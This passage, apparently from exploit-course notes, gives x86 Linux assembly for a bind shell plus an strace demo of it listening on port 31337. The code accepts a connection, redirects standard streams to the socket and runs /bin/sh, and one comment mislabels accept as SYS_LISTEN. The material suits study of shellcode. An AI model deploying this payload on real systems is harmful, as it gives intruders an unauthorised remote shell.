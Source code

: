 ``` {.asm}
    xor eax,eax
    mov al,0x66     ;SYS_SOCKETCALL
    int 0x80

    ;; accept()
    xor ecx,ecx
    push ecx        ; 0
    push ecx        ; 0
    push esi        ; socketfd
    mov ecx,esp     ;socket_args = {socketfd,0,0}

    xor ebx,ebx
    mov bl, 0x5     ;SYS_LISTEN

    xor eax,eax
    mov al,0x66     ;SYS_SOCKETCALL
    int 0x80

    mov esi,eax     ;new accepted socket stored in esi

    ;; dup2()
    mov ebx,esi     ;sockfd
    xor ecx,ecx     ;stdin 0


    xor eax,eax
    mov al, 0x3f
    int 0x80

    inc ecx         ;stdout 1
    xor eax,eax
    mov al, 0x3f
    int 0x80

    inc ecx         ;stderr 2
    xor eax,eax
    mov al, 0x3f
    int 0x80

    ;; execve()
    xor ecx,ecx
    mul ecx
    push ecx        ; null terminator
    push 0x68732f2f     ; /bin/sh
    push 0x6e69622f
    mov ebx,esp
    mov al, 0xb 
    int 0x80
```

``` {.example}
user@si485H-base:demo$ strace ./assembly_rsh
execve("./assembly_rsh", ["./assembly_rsh"], [/* 20 vars */]) = 0
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
bind(3, {sa_family=AF_INET, sin_port=htons(31337), sin_addr=inet_addr("0.0.0.0")}, 22) = 0
listen(3, 5)                            = 0
accept(3, ...
```
